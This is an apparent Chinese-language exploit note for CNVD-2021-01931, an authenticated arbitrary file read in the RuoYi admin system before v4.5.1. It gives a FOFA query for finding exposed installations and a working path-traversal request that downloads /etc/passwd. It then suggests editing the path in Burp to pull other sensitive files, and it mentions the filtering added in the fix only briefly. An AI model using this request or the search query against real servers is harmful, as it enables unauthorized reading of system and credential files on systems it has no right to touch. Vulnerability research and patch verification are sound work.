 # 若依管理系统 后台任意文件读取 CNVD-2021-01931

## 漏洞描述

若依管理系统是基于SpringBoot的权限管理系统,登录后台后可以读取服务器上的任意文件

## 漏洞影响

<a-checkbox checked>RuoYi < v4.5.1</a-checkbox></br>

## FOFA

<a-checkbox checked>app="若依-管理系统"</a-checkbox></br>

## 漏洞复现

登录后台后访问 Url

```shell
/common/download/resource?resource=/profile/../../../../etc/passwd
```

![img](../../../.vuepress/public/img/ruoyi-1.png)



访问后会下载文件 **/etc/passwd**



![img](../../../.vuepress/public/img/ruoyi-2.png)



可以使用Burp抓包改变 **/etc/passwd** 为其他文件路径获取敏感信息

![img](../../../.vuepress/public/img/ruoyi-4.png)



![img](../../../.vuepress/public/img/ruoyi-5.png)



在新版本的修复中添加了过滤

![img](../../../.vuepress/public/img/ruoyi-7.png)